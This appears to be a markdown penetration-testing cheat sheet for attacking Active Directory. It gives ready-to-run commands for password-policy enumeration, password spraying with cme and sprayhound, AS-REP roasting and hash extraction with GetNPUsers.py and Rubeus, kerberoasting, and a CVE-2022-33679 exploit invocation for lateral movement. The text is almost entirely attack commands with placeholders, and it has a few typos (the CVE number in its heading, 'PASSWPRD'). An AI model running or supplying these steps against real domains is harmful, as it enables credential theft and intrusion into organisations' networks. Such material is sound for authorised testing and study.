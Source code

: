 ### Password Spraying
- Tools
- Check password policy
```
cme <IP> -u 'user' -p 'password' --pass-pol
```
- Enumerate users with credentials
```
enum4linux -u 'username' -p 'password' -P <IP>
```
- Powershell Commands
```
Get-ADDefaultDomainPasswordPolicy Get-ADFineGrainedPasswordPolicy -filter * Get-ADUserResultantPasswordPolicy -Identity <USER>
```
- LDAP Search 
```
ldapsearch-ad.py --server '<DC>' -d <DOMAIN> -u <USER> -p <PASSWPRD> --type pass-pols
```
- More tools
- Test username=password
```
cme smb <DC_IP> -u user.txt -p password.txt --no-bruteforce
```
- Multiple tests, mindful of lockout policies
```
cme smb <DC_IP> -u user.txt -p password.txt
```
- Sprayhound
```
sprayhound -U users.txt -d <DOMAIN> --dc <DC_IP>
```
### ASEREPRoast
- Objective 
	- Identify ASREPRoastable users (accounts that do not require pre-authentication)
- Commands
```
Get-DomainUser -PreauthNotRequired -Properties SamAccountName
```
- Graph Analysis (e.g. with BloodHound)
```
MATCH (u:User {dontreqpreauth:true}), (c:Computer) RETURN p=shortestPath((u)-[*1..]->(c))
```
### Hash Extraction for ASREP
- GetNPUsers.py
```
python GetNPUsers.py <DOMAIN>/ -userfile <USERNAMES.TXT> -format hashcat -outputfile <HASHES.DOMAIN.TXT>
```
- Rubeus.exe
```
Rubeus.exe asreproast /format:hashcat
```
### Blind Kerberoasting
- Objective is to extract TGS (Ticket Granting Service) hashes
- Rubeus.exe
```
Rubeus.exe kerberoast /domain:<DOMAIN> /dc:<DC_IP> /nowrap:<OUTPUT.TXT>
```
- Alternative Command
```
GetUserSPNs.py -no-preauth "asrep_users" -usersfile <USERLIST.TXT> -dc-host <DC_IP> -k <DOMAIN>
```
### CVE-2022033679 Exploit
- Successfull exploitation results in lateral movement via Pass the ticket
```
python3 cve-2022-33679.py <DOMAIN>/<USER> <TARGET>
```



